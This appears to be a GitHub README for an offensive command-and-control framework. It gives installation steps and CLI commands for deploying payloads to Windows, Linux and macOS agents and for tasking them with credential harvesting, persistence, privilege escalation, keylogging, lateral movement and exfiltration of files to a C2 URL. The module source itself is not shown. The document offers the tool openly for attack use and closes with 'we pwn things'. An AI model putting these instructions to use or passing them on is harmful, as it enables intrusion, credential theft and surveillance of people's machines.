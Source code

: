 This is the start of a c2 server and client (currently windows) deployment. It's from our community as a whole. More functionality to follow in due course.


# Installation and Setup

Clone the repository git clone https://github.com/4lph4-01/share

Create a Virtual Environment python -m venv venv within the sovereign-c2 directory

source venv/bin/activate (in a new terminal e.g. source venv/bin/activate in the same directory, but separate terminal window). Results of the initial supported powershell commands sent will output to the check-in terminal window.

On Windows, use venv\Scripts\activate

Install Dependencies pip install -r requirements.txt

Prepare Payloads (If necessary) Ensure your payload scripts are in the payloads directory: payloads/macos_payload.sh (Work in progress) payloads/linux_payload.sh (Work in progress) payloads/windows_payload.ps1 (Work in progress)

Running the C2 Server

python c2_server/c2_server.py CLI Usage

List Agents python cli/cli.py list-agents

Deploy Payload python cli/cli.py deploy-payload <agent_type> Replace <agent_type> with macos, linux, or windows.

Select and Send Commands to an Agent python cli/cli.py select-agent You can specify the agent ID directly or choose from a list of available agents.

Generate Report python cli/cli.py generate-report

Send a Specific Command python cli/cli.py send-command <agent_id>

Supported Commands

Credential Harvesting python cli/cli.py send-command <agent_id> cred_harvest

Persistence python cli/cli.py send-command <agent_id> persistence

Privilege Escalation python cli/cli.py send-command <agent_id> priv_escalation

Reconnaissance python cli/cli.py send-command <agent_id> reconnaissance

Data Exfiltration python cli/cli.py send-command <agent_id> exfiltrate <file_path> <c2_url> Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging python cli/cli.py send-command <agent_id> keylogging

Lateral Movement python cli/cli.py send-command <agent_id> lateral_movement Modules Directory Structure Ensure you have a modules directory with the following structure and content: modules/ cred_harvest.py persistence.py priv_escalation.py reconnaissance.py exfiltration.py keylogging.py lateral_movement.py

# By the way, we pwn things.....
